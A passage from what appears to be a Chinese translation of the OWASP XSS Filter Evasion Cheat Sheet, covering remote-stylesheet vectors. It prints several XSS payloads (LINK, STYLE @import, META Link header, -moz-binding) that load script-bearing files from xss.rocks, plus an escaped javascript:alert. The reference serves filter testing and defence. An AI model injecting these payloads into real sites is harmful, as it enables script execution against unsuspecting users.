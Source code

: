 使用像远程样式表这样简单的东西，您可以包含您的 XSS，因为样式参数可以使用嵌入式表达式重新定义。这仅适用于 IE 和 Netscape 8.1+ 的 IE 渲染引擎模式。请注意，页面上没有任何内容表明包含 JavaScript。注意：对于所有这些远程样式表示例，它们都使用 body 标记，因此除非页面上除了矢量本身之外还有其他内容，否则它将不起作用，因此您需要在页面上添加一个字母以如果它是一个空白页，让它工作：

```
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

### 远程样式表第 2 部分[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#remote-style-sheet-part-2)

这与上面的工作方式相同，但使用`<STYLE>`标签而不是`<LINK>`标签）。这个向量的一个微小变化被用来破解谷歌桌面。`</STYLE>`附带说明一下，如果在向量之后立即有 HTML，则可以删除结束标记以将其关闭。如果您在跨站点脚本攻击中不能使用等号或斜线，这将很有用，这在现实世界中至少出现过一次：

```
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

### 远程样式表第 3 部分[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#remote-style-sheet-part-3)

这仅适用于 Opera 8.0（不再适用于 9.x），但相当棘手。根据 RFC2616 设置链接头不是 HTTP1.1 规范的一部分，但是一些浏览器仍然允许它（如 Firefox 和 Opera）。这里的诀窍是我正在设置一个标头（这与 HTTP 标头中的说法基本上没有什么不同`Link: <http://xss.rocks/xss.css>; REL=stylesheet`），并且带有我的跨站点脚本向量的远程样式表正在运行 JavaScript，这在 FireFox 中不受支持：

```
<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">
```

### 远程样式表第 4 部分[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#remote-style-sheet-part-4)

这仅适用于 Gecko 渲染引擎，并且通过将 XUL 文件绑定到父页面来工作。我认为这里具有讽刺意味的是，Netscape 认为 Gecko 更安全，因此对于绝大多数网站来说都是易受攻击的：

```
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

### 用于 XSS 的带有破碎 JavaScript 的样式标签[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#style-tags-with-broken-up-javascript-for-xss)

这个 XSS 有时会将 IE 发送到无限循环的警报中：

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

### 使用对拆分表达式的注释的 STYLE 属性[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#style-attribute-using-a-comment-to-break-up-expression)

由罗曼·伊万诺夫创作
